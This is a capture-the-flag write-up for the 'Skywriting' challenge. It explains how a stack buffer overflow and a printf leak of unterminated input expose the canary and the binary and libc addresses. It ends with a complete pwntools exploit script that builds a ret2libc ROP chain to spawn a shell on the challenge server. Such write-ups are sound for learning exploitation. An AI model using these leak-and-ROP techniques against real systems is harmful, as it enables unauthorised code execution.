 # Skywriting

There's a lot of unnecessary bloat that I'll mostly ignore.

Cracking open the binary in ghidra, we see that the first input we get is actually a scanf, scanning a decimal integer into a variable. It then checks this integer against 1. If the integer isn't 1, it pops a shell - zsh. Nothing happens remotely, likely they do not have zsh. So that's not very useful.

What happens if the integer is 1? It continues with the rest of the execution of the program. The program opens up a never-ending prompt in which it asks for an input. If the input is the same as notflag{a_cloud_is_just_someone_elses_computer}\n when strcmp-ed,the program tells us we did it and rets. This will be useful later on to deliver our final exploit.

In the prompt, 0x200 bytes are read into rbp-0x90, creating a clear buffer overflow vulnerability.

Sadly, however, every protection is on. Canary, RELRO, PIE and most likely ASLR. We're going to need to leak somehow..  but how?

The read function does not null terminate. That means our input will not be null terminated as a string unless we enter a null byte. Not only this, but the program calls printf("%s??", input), printing the input back to us. Printf will only know the end of a string once it hits a null byte, meaning we can leak values off of the stack!

For example, say this was the stack

00 00 00 00 00 00 00 00 00 <canary>

we could write like so
41 41 41 41 41 41 41 41 0a <canary>

now, when it prints, it'll keep printing, leaking the canary and saved RBP. NOTE: Canaries start with null bytes! We will have to overflow one byte of the canary so that we can read the rest. It doesn't matter that we overflow the canary until we make the program ret, but by then we will know what the full canary is and be able to replace it.

We can use this again to leak the saved ret address, which will be __libc_start_main_ret. 
Once all these values are leaked, we send the finished exploit. notflag{a_cloud_is_just_someone_elses_computer}\n\x00 + padding + canary + more padding + poprdi + /bin/sh address + retgadget + systemaddress

NOTE: For some reason, the saved RBP value is a binary address. We don't strictly *need* the binary base here since libc will have rop gadgets, but it makes our lives a bit easier to get the saved RBP and then offset.
```python
from pwn import *
mode = sys.argv[1]
NUM_TO_CANARY = 0x90 - 0x8
NUM_TO_RET = NUM_TO_CANARY+16
retgadget  = 0x000000000000078e # ret
poprdi = 0x0000000000000bd3 # pop rdi ; ret
e = ELF("./sky")
def getproc():
    if mode == 'local':
        return e.process()
    else:
        return remote('2020.redpwnc.tf', 31034)
def setup():
    p = getproc()
    p.recvline()
    p.sendline("1")
    p.recvuntil("shot: ")
    return p 
def getoutput(data):
    global p
    p.sendline(data)
    p.recvuntil(data + b'\n')
    output = p.recvuntil("??")[:-2]
    p.recvuntil("shot: ")
    return output
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6" if mode == 'local' else "/home/kali/Tools/libc-database/libs/libc6_2.27-3ubuntu1_amd64/libc.so.6")
p = setup()
#Leak canary and binary base
libret = 0x21b97 if mode == 'remote' else 0x26e0b
leak = getoutput(b"A" * (NUM_TO_CANARY))
canary = u64(b'\x00' + leak[:7])
log.info(f"Canary: {hex(canary)}")
pause()
rbp = u64(leak[7:] + b'\x00\x00')
e.address = rbp - 0xb70
log.info(f"Binary base: {hex(e.address)}")
#Leak libc base by leaking the libc start main ret
leak2 = getoutput(b"A" * (NUM_TO_RET-1))
libret_leak = u64(leak2 + b'\x00\x00')
log.info(f"Libc start main ret: {hex(libret_leak)}")
libcbase = libret_leak - libret
log.info(f"Libc base: {hex(libcbase)}")
libc.address = libcbase
retgadget += e.address
poprdi += e.address
# Everything has been leaked. Develop the final payload.
final =  flat(canary,b'C'*8,poprdi,next(libc.search(b"/bin/sh\x00")),retgadget,libc.symbols['system'],word_size=64)
padding = b"notflag{a_cloud_is_just_someone_elses_computer}\n\x00"
padding += b'B' * (NUM_TO_CANARY - len(padding))
p.sendline(padding + final)
p.interactive()
```
